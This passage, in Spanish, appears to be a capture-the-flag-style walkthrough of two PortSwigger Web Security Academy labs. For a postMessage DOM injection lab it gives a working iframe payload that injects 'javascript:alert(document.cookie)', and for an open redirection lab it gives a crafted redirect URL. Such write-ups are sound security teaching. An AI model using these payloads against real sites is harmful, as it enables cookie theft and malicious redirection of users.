 ```
<script>
    window.addEventListener('message', function(e) {
        var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
        document.body.appendChild(iframe);
        try {
            d = JSON.parse(e.data);
        } catch(e) {
            return;
        }
        switch(d.type) {
            case "page-load":
                ACMEplayer.element.scrollIntoView();
                break;
            case "load-channel":
                ACMEplayer.element.src = d.url;
                break;
            case "player-height-changed":
                ACMEplayer.element.style.width = d.width + "px";
                ACMEplayer.element.style.height = d.height + "px";
                break;
        }
    }, false);
</script>
```

Para resolver el laboratorio se carga en el exploit server un `iframe`, donde el contenido del mensaje sea un string que pueda ser parseado, y que tenga 2 atributos: `type` (cuyo valor es `"load-channel"`) y `url` (cuyo valor es el código que se quiere inyectar).

```
<iframe src=https://id-del-laboratorio.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:alert(document.cookie)\"}","*")'>
```

### [DOM-based open redirection](https://portswigger.net/web-security/dom-based/open-redirection/lab-dom-open-redirection)

Al ingresar en un posteo del sitio vulnerable, al final de todo hay un link que debería redirigir a la home. En caso de que `returnUrl` tenga un valor _truthy_, se le asignará a `location.href` el valor en la posición 1. Si no, se le asignará `"/"`.

```
<a href="#" onclick="returnUrl = /url=(https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"">Back to Blog</a>
```

Para resolver el laboratorio, se debe armar una URL similar a la del posteo, pero que al final incluya otro query parameter `url`, cuyo valor sea la URL del exploit server del laboratorio.

```
https://id-del-laboratorio.web-security-academy.net/post?postId=4&url=https://id-del-exploit-server.web-security-academy.net/
```
